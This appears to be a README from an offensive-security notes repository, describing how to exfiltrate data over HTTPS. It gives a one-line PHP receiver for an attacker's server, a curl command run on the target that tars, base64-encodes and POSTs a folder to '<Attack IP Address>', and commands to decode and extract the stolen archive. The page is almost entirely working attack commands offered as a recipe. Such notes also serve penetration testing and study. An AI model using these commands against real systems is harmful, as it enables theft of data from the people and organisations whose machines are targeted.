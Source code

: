 # Data Exfiltration
### Exfiltrate Base64 encoded data via POST request over HTTPS to PHP server, with SSL certificate.
##### On attack machine, create a PHP file that will receive POST request and write data to a file.
```bash
# contact.php - see contact.php in DataExfiltation folder.
<?php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>
```
[contact.php](DataExfiltration/contact.php)
##### From target, use curl to send POST request that tars and encodes the data.
```bash
curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<Attack IP Address>/contact.php
```
##### From attack machine, decode file, redirect to tar, and extract.
```bash
cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar
```

### Data Exfiltration References
[POST HTTP](https://en.wikipedia.org/wiki/POST_(HTTP))